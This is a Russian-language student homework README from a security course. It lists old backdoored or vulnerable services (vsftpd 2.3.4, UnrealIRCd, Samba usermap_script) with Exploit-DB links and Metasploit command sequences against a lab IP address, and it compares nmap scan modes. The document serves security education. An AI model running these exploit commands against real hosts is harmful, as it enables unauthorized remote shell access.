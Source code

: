 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Петровский Дмитрий`


### Инструкция по выполнению домашнего задания

   1. Сделайте `fork` данного репозитория к себе в Github и переименуйте его по названию или номеру занятия, например, https://github.com/имя-вашего-репозитория/git-hw или  https://github.com/имя-вашего-репозитория/7-1-ansible-hw).
   2. Выполните клонирование данного репозитория к себе на ПК с помощью команды `git clone`.
   3. Выполните домашнее задание и заполните у себя локально этот файл README.md:
      - впишите вверху название занятия и вашу фамилию и имя
      - в каждом задании добавьте решение в требуемом виде (текст/код/скриншоты/ссылка)
      - для корректного добавления скриншотов воспользуйтесь [инструкцией "Как вставить скриншот в шаблон с решением](https://github.com/netology-code/sys-pattern-homework/blob/main/screen-instruction.md)
      - при оформлении используйте возможности языка разметки md (коротко об этом можно посмотреть в [инструкции  по MarkDown](https://github.com/netology-code/sys-pattern-homework/blob/main/md-instruction.md))
   4. После завершения работы над домашним заданием сделайте коммит (`git commit -m "comment"`) и отправьте его на Github (`git push origin`);
   5. Для проверки домашнего задания преподавателем в личном кабинете прикрепите и отправьте ссылку на решение в виде md-файла в вашем Github.
   6. Любые вопросы по выполнению заданий спрашивайте в чате учебной группы и/или в разделе “Вопросы по заданию” в личном кабинете.
   
Желаем успехов в выполнении домашнего задания!
   
### Дополнительные материалы, которые могут быть полезны для выполнения задания

1. [Руководство по оформлению Markdown файлов](https://gist.github.com/Jekins/2bf2d0638163f1294637#Code)

---

### Задание 1

![Описание](./img/1.1.png)
![Описание](./img/1.2.png)


1. vsftpd 2.3.4 – Backdoor Command Execution (CVE-2011-2523)
Описание: В этой версии VSFTPD есть бэкдор, позволяющий злоумышленнику получить shell на сервере, отправив специальную последовательность символов в поле имени пользователя.

Exploit-DB: https://www.exploit-db.com/exploits/17491

Команда для эксплуатации (в Metasploit):

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.130.70
exploit
2. UnrealIRCd 3.2.8.1 – Backdoor (CVE-2010-2075)
Описание: В некоторых сборках UnrealIRCd был встроен бэкдор, позволяющий выполнить произвольные команды.

Exploit-DB: https://www.exploit-db.com/exploits/16922

3. Samba (usermap_script) – RCE (CVE-2007-2447)
Описание: Уязвимость в Samba позволяет выполнить код через неправильную обработку скриптов в smb.conf.

Exploit-DB: https://www.exploit-db.com/exploits/16320

msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.130.70
exploit

---

### Задание 2

![Описание](./img/2.1.png)
![Описание](./img/2.2.png)
![Описание](./img/2.3.png)
![Описание](./img/2.4.png)
![Описание](./img/2.5.png)
![Описание](./img/2.6.png)
![Описание](./img/2.7.png)
![Описание](./img/2.8.png)
![Описание](./img/2.9.png)

1. Чем отличаются режимы сканирования?
| Режим      | Тип пакетов        | Ответ сервера (открытый порт)       | Ответ сервера (закрытый порт)  |
|:----------:|:------------------:|:-----------------------------------:|:------------------------------:|
| SYN        | TCP SYN            | SYN-ACK                             | RST                            |
| FIN        | TCP FIN            | Нет ответа                          | RST                            |
| Xmas       | TCP FIN+PSH+URG    | Нет ответа                          | RST                            |
| UDP        | UDP-датаграммы     | Нет ответа / данные сервиса         | ICMP Port Unreachable          |

2. Как отвечает сервер?
SYN: Открытый порт → SYN-ACK, закрытый → RST.

FIN/Xmas: Открытый порт → молчит, закрытый → RST.

UDP: Открытый порт → молчит или данные сервиса, закрытый → ICMP Port Unreachable.